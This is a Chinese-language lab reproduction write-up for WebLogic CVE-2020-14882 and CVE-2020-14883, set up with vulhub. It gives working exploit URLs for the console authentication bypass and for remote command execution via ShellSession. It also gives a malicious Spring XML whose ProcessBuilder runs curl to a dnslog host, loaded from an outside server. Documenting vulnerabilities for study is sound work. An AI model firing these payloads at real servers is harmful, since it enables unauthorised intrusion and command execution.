

# Weblogic-未授权命令执行漏洞（CVE-2020-14882&14883）

### 0x00 前言

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

### 0x01 环境搭建

这里是用的vulhub进行环境搭建



### 0x02 复现步骤

1、首先测试权限绕过漏洞（CVE-2020-14882），访问URL`http://your-ip:7001/console/css/%252e%252e%252fconsole.portal`，即可未授权访问到管理后台页面

可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码


2、所以我们要配合第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('curl%20test.zg235y.dnslog.cn');")
```


这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。


3、`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[curl test.tvenvd.dnslog.cn]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```


### 0x03 修复建议

1、更新Oracle官方发布的最新补丁